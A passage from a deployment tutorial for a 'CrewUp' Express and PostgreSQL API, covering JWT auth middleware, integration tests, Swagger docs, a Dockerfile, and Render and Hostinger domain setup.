    const token = jwt.sign({ userId: user.id, role: user.role }, process.env.JWT_SECRET, { expiresIn: '7d' });
    delete user.password_hash;

    return res.status(200).json({ success: true, token, user });
  } catch (err) {
    return res.status(500).json({ success: false, message: err.message });
  }
};
```

---

### Step 5: Protected Route Middleware (`src/middleware/protect.js`)
```javascript
const jwt = require('jsonwebtoken');
const { query } = require('../config/db');

module.exports = async (req, res, next) => {
  const authHeader = req.headers.authorization;
  if (!authHeader || !authHeader.startsWith('Bearer ')) {
    return res.status(401).json({ success: false, message: 'Authorization token required' });
  }

  const token = authHeader.split(' ')[1];
  try {
    const decoded = jwt.verify(token, process.env.JWT_SECRET);
    const result = await query('SELECT id, name, email, role FROM users WHERE id = $1', [decoded.userId]);

    if (result.rows.length === 0) {
      return res.status(401).json({ success: false, message: 'User record not found' });
    }

    req.user = result.rows[0];
    next();
  } catch (err) {
    return res.status(401).json({ success: false, message: 'Invalid or expired token' });
  }
};
```

---

### Step 6: Automated Integration Tests (`tests/auth.test.js`)
```javascript
const request = require('supertest');
const app = require('../src/app');
const { pool, query } = require('../src/config/db');

beforeAll(async () => {
  await query('DELETE FROM users WHERE email = $1', ['testcine@example.com']);
});

afterAll(async () => {
  await query('DELETE FROM users WHERE email = $1', ['testcine@example.com']);
  await pool.end();
});

describe('POST /api/auth/register', () => {
  it('should register a new user and return a JWT', async () => {
    const res = await request(app)
      .post('/api/auth/register')
      .send({
        name: 'Test Filmmaker',
        email: 'testcine@example.com',
        password: 'Password123!',
        role: 'director',
      });

    expect(res.statusCode).toBe(201);
    expect(res.body.success).toBe(true);
    expect(res.body).toHaveProperty('token');
    expect(res.body.user.email).toBe('testcine@example.com');
  });

  it('should reject duplicate email registration', async () => {
    const res = await request(app)
      .post('/api/auth/register')
      .send({
        name: 'Duplicate',
        email: 'testcine@example.com',
        password: 'Password123!',
      });

    expect(res.statusCode).toBe(400);
    expect(res.body.success).toBe(false);
  });
});
```

---

### Step 7: Swagger / OpenAPI Documentation (`src/swagger.js`)
```javascript
const swaggerJSDoc = require('swagger-jsdoc');
const swaggerUi = require('swagger-ui-express');

const options = {
  definition: {
    openapi: '3.0.0',
    info: {
      title: 'CrewUp PostgreSQL API',
      version: '1.0.0',
      description: 'Production REST API for CrewUpFilms built with Express and PostgreSQL',
    },
    servers: [{ url: 'http://localhost:5001' }],
    components: {
      securitySchemes: {
        bearerAuth: {
          type: 'http',
          scheme: 'bearer',
          bearerFormat: 'JWT',
        },
      },
    },
  },
  apis: ['./src/routes/*.js'],
};

const swaggerSpec = swaggerJSDoc(options);

module.exports = (app) => {
  app.use('/api/docs', swaggerUi.serve, swaggerUi.setup(swaggerSpec));
};
```

---

### Step 8: Multi-Stage Dockerfile (`Dockerfile`)
```dockerfile
# Stage 1: Build & Dependencies
FROM node:20-alpine AS builder
WORKDIR /app
COPY package*.json ./
RUN npm ci --omit=dev

# Stage 2: Minimal Production Runtime
FROM node:20-alpine AS runner
WORKDIR /app
USER node
COPY --chown=node:node --from=builder /app/node_modules ./node_modules
COPY --chown=node:node . .

ENV NODE_ENV=production
ENV PORT=5001
EXPOSE 5001

CMD ["node", "src/server.js"]
```

---

### Step 9: Deploying to Render
1. Push project code to GitHub.
2. In the Render Dashboard, select **New +** $\rightarrow$ **PostgreSQL**. Create database `crewup-db` (take note of the Internal & External `DATABASE_URL`).
3. Select **New +** $\rightarrow$ **Web Service**. Connect your GitHub repository.
4. Set Build Command: `npm install && node src/scripts/initDb.js`.
5. Set Start Command: `node src/server.js`.
6. Add Environment Variables:
   - `DATABASE_URL` = `<Render Internal PostgreSQL Database URL>`
   - `JWT_SECRET` = `<Generate a 64-character random string>`
   - `NODE_ENV` = `production`
   - `PORT` = `5001`
7. Click **Deploy Web Service**. Render compiles the container and issues a free TLS endpoint: `https://crewup-pg-api.onrender.com`.

---

### Step 10: Hostinger Domain & SSL Setup
1. Log in to the **Hostinger Control Panel** (hPanel) and navigate to **Domains** $\rightarrow$ **DNS Zone Editor**.
2. Locate the root `@` and `api` records.
3. Add a **CNAME Record**:
   - Type: `CNAME`
   - Name: `api`
   - Target: `crewup-pg-api.onrender.com`
   - TTL: `300` (5 minutes)
4. In Render Web Service settings, navigate to **Custom Domains** and add `api.yourdomain.com`.
5. Render verifies DNS propagation and issues a free, auto-renewing **Let’s Encrypt SSL/TLS Certificate**.
6. Update backend `CLIENT_URL` environment variable to include `https://yourdomain.com` to finalize production CORS security.
